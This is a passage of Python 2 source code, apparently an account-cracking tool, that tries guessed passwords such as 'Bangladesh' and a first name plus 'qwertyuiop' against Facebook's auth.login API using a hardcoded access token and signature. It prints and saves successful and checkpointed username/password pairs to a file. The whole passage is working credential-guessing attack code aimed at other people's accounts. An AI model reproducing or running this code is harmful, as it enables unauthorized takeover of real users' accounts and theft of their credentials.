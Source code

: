 									cek.close()

									cekpoint.append(user+pass3)

								else:

									pass4 = 'Bangladesh'

									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

									q = json.load(data)

									if 'access_token' in q:

										print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4

										oks.append(user+pass4)

									else:

										if 'www.facebook.com' in q["error_msg"]:

											print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4

											cek = open("out/checkpoint.txt", "a")

											cek.write(user+"|"+pass4+"\n")

											cek.close()

											cekpoint.append(user+pass4)

										else:

											pass5 = b['first_name'] + 'qwertyuiop'

											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

											q = json.load(data)

											if 'access_token' in q:

												print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5

												oks.append(user+pass5)

											else:

												if 'www.facebook.com' in q["error_msg"]:

													print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5

													cek = open("out/checkpoint.txt", "a")

													cek.write(user+"|"+pass5+"\n")
